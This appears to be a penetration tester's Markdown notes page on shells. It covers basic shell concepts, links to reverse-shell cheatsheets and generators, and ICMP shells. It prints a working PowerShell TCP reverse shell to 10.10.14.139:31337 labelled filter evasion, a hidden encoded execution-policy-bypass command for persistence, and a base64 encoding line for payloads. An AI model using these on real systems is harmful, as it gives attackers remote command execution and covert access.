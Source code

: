 # Shells

## Introduction

A shell is the user interface of a system, either in a form of a Command Line Interface or Graphical User Interface, is used to interact with system.  To differentiate, modern terminals are still GUIs applications whereas a Headless install of a OS would closer to 20th Century common user interaction with a system. This article is conceptual breakdown of types of shells:
- For large maintained list of reverse shells check: [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- Cheatsheet from `highoncoffee`.
- Generate reverse shells with [revshells](https://www.revshells.com/). 
- Hack-Tools browser plugin also has reverse shell generator for [Chrome](https://chrome.google.com/webstore/detail/hack-tools/cmbndhnoonmghfofefkcccljbkdpamhi) and [Firefox](https://addons.mozilla.org/en-US/firefox/addon/hacktools/)

## Shells 101

A shell is command line or graphical user interface of a system, the outermost layer to interact with it. Some example commands to demonstrate usage here list of Linux networking commands help. For more see [[Core-Linux-Commands]]. For  useful list of windows commands see [[Windows-Commands]]

`CTRL + <KEY>`:
- https://superuser.com/questions/169051/whats-the-difference-between-c-and-d-for-unix-mac-os-x-terminal:
	- `ctrl + c`: SIGINT to current foreground process
	- `ctrl + d`: [EOF](https://en.wikipedia.org/wiki/End-of-Transmission_character#Meaning_in_Unix)

## Linux Shells

The trailing `$` or `#` character indicates that the shell is awaiting your input and also indicates whether Bash recognises you as a normal user with `$`  or as a root  `#`.

## Bind and Reverse Shells

[[Bind-And-Reverse-Shells-Defined]] for explanations, alternative frameworks and tool or [[Reverse-Shells-Listing]] for something close to PayloadAllTheThings, but just for shells

## ICMP Shells

[[Nishang-Helpsheet]] has an  [ICMP reverse shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellIcmp.ps1), requires `python2`
[Bdamele](https://github.com/bdamele/icmpsh)'s ICMP shell 

## Encoding / Obfuscated Shells

`Start-Process` [[Persistence]] for the 2 is 1 and 1 is none MalwareJake mentality 
```powershell
Start-Process -NoNewWindow powershell "-nop -Windowstyle hidden -ep bypass -enc $b64EncodeShellOrCmdToShell
```

[[PowerShell]] Filter evasion
```powershell
$a = New-Object System.Net.Sockets.TCPClient('10.10.14.139',31337);$b = $a.GetStream();[byte[]]$c = 0..65535|%{0};while(($i = $b.Read($c, 0, $c.Length)) -ne 0){;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($c,0, $i);$f = (iex $d 2>&1 | Out-String );$g = $f + 'PS ' + (pwd).Path + '> ';$e = ([text.encoding]::ASCII).GetBytes($g);$b.Write($e,0,$e.Length);$b.Flush()};$a.Close()
# client -> a
# stream -> b
# bytes -> c
# data -> d
# sendbyte -> e
# sendback -> f
# sendback2 -> f2 -> g
```

Base64 encoding with width 0 (no `=` symbol) with Linux `iconv` from ASCII to UTF-16LE then remove newlines and 
```bash
iconv -f ASCII -t UTF-16LE rshell.txt | tr -d "\n" | base64 -w0 
```

[gh0x0st/Get-ReverseShell](https://github.com/gh0x0st/Get-ReverseShell/tree/main) is *"a solution to create obfuscated reverse shells for PowerShell."*

## References

[Chrome](https://chrome.google.com/webstore/detail/hack-tools/cmbndhnoonmghfofefkcccljbkdpamhi) 
[Firefox](https://addons.mozilla.org/en-US/firefox/addon/hacktools/)
[Bdamele's icmpsh](https://github.com/bdamele/icmpsh)
[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
[gh0x0st/Get-ReverseShell](https://github.com/gh0x0st/Get-ReverseShell/tree/main) 